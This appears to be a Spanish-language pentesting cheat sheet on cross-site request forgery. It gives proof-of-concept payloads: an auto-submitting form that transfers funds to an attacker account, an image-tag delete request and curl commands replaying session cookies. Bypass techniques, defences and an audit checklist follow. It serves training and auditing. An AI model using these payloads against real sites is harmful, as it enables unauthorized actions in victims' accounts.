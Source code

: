 # Cheatsheet: CSRF

Ataque en aplicaciones web en el que un atacante engaña al navegador de una víctima autenticada para que realice una acción no deseada en un sitio legítimo sin su consentimiento

## Recursos
[csrf shark](https://csrfshark.github.io/app/)

[lab](https://portswigger.net/web-security/csrf/lab-no-defenses)

## Procedimiento y comandos

#### POC basica:

1. Formulario
```bash
<!-- csrf-poc.html -->
<html>
  <body onload="document.forms[0].submit()">
    <form action="https://victima.example.com/account/transfer" method="POST">
      <input type="hidden" name="amount" value="1000">
      <input type="hidden" name="to" value="attacker_account">
    </form>
    <p>Loading…</p>
  </body>
  <script>
   window.onload = function() {
	documents.forms[0].submit();
   }
  </script>
</html>
```
2. Imagen

```bash
<img src="https://victima.example.com/delete?user=123" />
```

3. Curl

> Se necesitan cookies de session validas o token de session

```bash
curl -i -s -k \
  -H "Cookie: session=SESSION_VALUE" \
  -H "User-Agent: Mozilla/5.0" \
  -X POST "https://victima.example.com/account/transfer" \
  --data "amount=1000&to=attacker_account"
```

```bash
curl -s -L 'https://victima.example.com/edit-profile' \
  -H 'Cookie: session=SESSION_VALUE' | grep -i csrf || grep -Eo 'name="[^"]*csrf[^"]*"'
```

#### Paso 1: Enumeracion

#### Paso 1: Enumeración

1. Identificar puntos cambiantes (state-changing): POST/PUT/DELETE/GET que modifiquen datos (transferencias, cambio email, reset password, configuración).

2. Buscar tokens CSRF en HTML: inputs hidden (_csrf, csrf_token, authenticity_token).

3. Comprobar envío automático de cookies: visitar endpoints desde un HTML simple y observar si la acción se ejecuta.

4. Probar cabeceras Referer / Origin verificadas por el servidor: enviar peticiones con Referer falso y ver si son rechazadas.

5. Verificar SameSite y atributos de cookie: ver si la cookie de sesión tiene SameSite=Lax/Strict/None.

En caso de None o ausencia, más riesgo.

6. Comprobar protección en APIs JSON / XHR: ver si la app exige cabeceras custom (X-Requested-With) o token en cabecera.

7. Detectar endpoints no protegidos: usar burp/intruder / listas de endpoints comunes y revisar respuestas.

Buscar tokens en apps internas: 

```bash
curl -s URL | grep -iE 'csrf|token|authenticity'
```

#### Paso 2: Explotacion

1. Explotación directa (cuando no hay token ni verificación de origen):

          - Usar la POC HTML (auto-submit form) o tags <img>, <script>, <link> según el método que acepta la app.

2. Explotación con redirecciones / formularios multipart: si la app requiere multipart/form-data, usar <form enctype="multipart/form-data">.

3. Explotación de JSON endpoints (bypass usando CSRF via CORS/XHR):

          - Si la API acepta JSON y no valida Origin, un <script> no puede enviar JSON POST «puro» por restricciones del navegador — pero si la app acepta Content-Type: text/plain o hace parsing flexible, podría explotarse.

          - También se intentan técnicas de CSRF ciego con img + server-side callbacks o por usar formularios que aceptan application/x-www-form-urlencoded.

4. Blind SSRF-style / Out-of-band (OOB) detection: si la respuesta no se muestra, usar un dominio controlado por el atacante y revisar si el servidor hace la petición (dnslog / burpcollaborator).

5. Login CSRF: forzar que la víctima inicie sesión en la cuenta del atacante (útil para session fixation / trackear actividad).

6. CSRF + XSS combos: con XSS local puedes extraer tokens y luego ejecutar acciones; pero esto ya es otra categoría.

Ejemplo: POC que exfiltra resultado si la app devuelve respuesta visible / Guardian HTB

```bash
# Autoejecutar con onload
<form action="https://victima.example.com/admin/delete_user" method="POST">
  <input name="user_id" value="42" />
  <input type="submit" />
</form>
```
#### Paso 3: Tecnicas

**Bypasses y vectores de evasión**

* No-token + Referer mal verificado: si el servidor ignora Origin/Referer, CSRF fácil.

* Encoded/obfuscated URLs: usar IPv6, decimal, octal, o notación mixta para intentar evadir checks simples.

* DNS rebinding: hacer que un dominio público resuelva a 127.0.0.1 o IPs internas para evadir validaciones basadas en nombre.

* Redirecciones abiertas: apuntar a URL que redirige internamente a una ruta sin protección.

* Content-type tricks: forzar Content-Type que el servidor acepte sin confirmar origen (ej. text/plain).

* Login CSRF para fijar la sesión de la víctima con la cuenta atacante.

**Defensas que suelen bloquear exploits**

* Token per-session / per-request (synchronizer token): secreto en formulario + verificación server-side.

* SameSite cookie (Lax/Strict): evita envío de cookies en requests cross-site (pero Lax permite ciertas GET safe navigations).

* Verificar Origin y/o Referer: server-side reject si no coincide con dominio propio.

* Double Submit Cookie: enviar token en cookie y en campo POST y compararlos.

* Cabeceras CORS y X-Requested-With: exigir cabeceras custom y validar Origin para XHR (no protege contra form CSRF).

* Reautenticación para acciones críticas: pedir contraseña/totp para cambios sensibles.

Checklist de auditoria rapida.

* [ ]¿El endpoint es state-changing? (sí → riesgo)

* [ ]¿Existe token CSRF en formularios? (sí/no)

* [ ]¿El servidor valida Origin o Referer? (sí/no)

* [ ]¿Las cookies usan SameSite apropiado? (Lax/Strict)

* [ ]¿Se aceptan métodos GET para acciones que cambian estado? (no debería)

* [ ]¿La app expone APIs JSON sin validación de origen? (peligro)

* [ ]¿Se requiere reautenticación para operaciones críticas? (recomendado)


